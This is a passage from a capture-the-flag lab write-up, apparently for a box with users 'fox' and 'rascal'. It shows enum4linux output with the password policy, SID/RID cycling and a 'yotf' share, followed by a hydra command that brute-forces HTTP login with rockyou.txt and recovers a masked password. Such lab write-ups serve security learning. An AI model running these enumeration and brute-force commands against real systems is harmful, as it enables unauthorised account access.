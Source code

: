 ```
		[+] Domain Password No Anon Change: 0
		[+] Domain Password Complex: 0

	[+] Minimum password age: None
	[+] Reset Account Lockout Counter: 30 minutes 
	[+] Locked Account Duration: 30 minutes 
	[+] Account Lockout Threshold: None
	[+] Forced Log off Time: 37 days 6 hours 21 minutes 


[+] Retieved partial password policy with rpcclient:

Password Complexity: Disabled
Minimum Password Length: 5


 =============================== 
|    Groups on <MACHINE_IP>    |
 =============================== 

[+] Getting builtin groups:

[+] Getting builtin group memberships:

[+] Getting local groups:

[+] Getting local group memberships:

[+] Getting domain groups:

[+] Getting domain group memberships:

 ======================================================================== 
|    Users on <MACHINE_IP> via RID cycling (RIDS: 500-550,1000-1050)    |
 ======================================================================== 
[I] Found new SID: S-1-22-1
[I] Found new SID: S-1-5-21-978893743-2663913856-222388731
[I] Found new SID: S-1-5-32
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\fox (Local User)
S-1-22-1-1001 Unix User\rascal (Local User)
```
Ok, interesting things: a share called `yotf` and also some system users: `fox` and `rascal`. Looks like i can't really get nothing more so maybe we can try to brutefoce. I will start with the webpage because im more use to this kind of attacks in web.

### Webpage

I used `hydra` to try to bruteforce the password for the users i found earlier: `hydra -l <USER> -P rockyou.txt -s 80 -f <MACHINE_IP> http-get /`. I didn't get something useful with the `fox` user but `rascal` in the other hand had an easy password to guess using `rockyou`: `rascal:****` cool.
